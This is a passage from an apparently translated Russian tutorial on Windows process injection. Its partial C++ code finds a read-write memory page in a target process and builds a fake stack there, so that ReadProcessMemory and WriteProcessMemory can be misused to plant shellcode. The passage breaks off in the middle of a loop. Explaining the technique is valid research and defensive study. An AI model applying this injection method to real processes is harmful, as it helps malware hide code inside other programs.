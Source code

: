 ```cpp
// Заметка: Идеально будет найти RW секцию
// внутри страниц памяти бинарника, потому что
// выравнивающие байты до секции подходят для пятого, опционального
// аргумента ReadProcessMemory и WriteProcessMemory.
//
    if (MemoryBasicInfo.Protect & PAGE_READWRITE) {
//
// Стек располагается в RW страницах, снизу
//
    }
}
```


После нахождения нужной страницы, стек должен располагаться так, чтобы он рос от низа страницы и по мере роста было найдено значение 0x0000000000000000, для пятого аргумента ReadProcessMemory. Это означает, что потребуется как минимум 0х28 байт (если считать от начала (низа) страницы) + пространство для шеллкода.

![alt_text](/assets/images/translations/nina/img39.jpg)


Код, для демонстрации этого:


```cpp
//
// Выделяем память для стека, для чтения локальной копии
//
Stack = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, AddressSize);
//
// Поиск NULL значения для пятого аргумента в стеке 
//
Success = ReadProcessMemory(
    ProcessHandle,
    Address,
    Stack,
    AddressSize,
    NULL
);
//
// Проходимся снизу (по стеку) 
// Начиная с -5 * 8 - это количество для как минимум пяти аргументов + шеллкод
//
for (SIZE_T i = AddressSize - 5 * sizeof (SIZE_T) - sizeof (Shellcode); i > 0 ; i -= sizeof (SIZE_T)) {
    ULONG_PTR* StackVal = (ULONG_PTR*)((LPBYTE)Stack + i);
```